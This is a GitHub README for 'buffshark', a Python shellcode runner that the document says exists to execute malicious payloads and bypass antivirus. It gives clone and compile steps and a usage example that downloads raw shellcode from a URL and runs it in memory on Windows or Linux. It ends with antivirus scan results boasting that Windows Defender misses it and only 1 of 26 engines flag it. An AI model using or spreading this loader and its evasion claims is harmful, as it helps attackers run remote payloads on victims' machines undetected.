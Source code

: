 # buffshark-shellcode-runner

## Python Shellcode Runner to execute malicious payload and bypass AV
This script utilizes mmap(for linux) and win api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

## Installation and Compiling
1. Download the repo: `git clone https://github.com/momo1239/buffshark-shellcode-runner`
2. Move directory: `cd buffshark-shellcode-runner/`

```
└─# python3 buffshark.py -h                                       
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen
==========================
usage: buffshark.py [-h] -u  -a

Python Shellcode Runner

optional arguments:
  -h, --help   show this help message and exit
  -u , --url   URL to raw shellcode file
  -a , --os    Choose OS: win/nix
  ```
                                     
4. Optional: Install pyinstaller to compile to windows executable: `pip install pyinstaller`
5. Optional: Compile: `pyinstaller -F buffshark.py`

## Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`

```
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
[+] Downloading shellcode...
[+] 49 Bytes Downloaded!
[+] Running shellcode in memory...
README.md  antiscan.PNG  antiscanres.PNG  buffshark.exe  buffshark.py  shell.bin  shellcode
```

## AV Scan
As of 11/22/2021, Windows Defender does not flag this shellcode runner.

1/26 AV has flagged buffshark on antiscan.me

![image](antiscanres.PNG)


![image](antiscan.PNG)
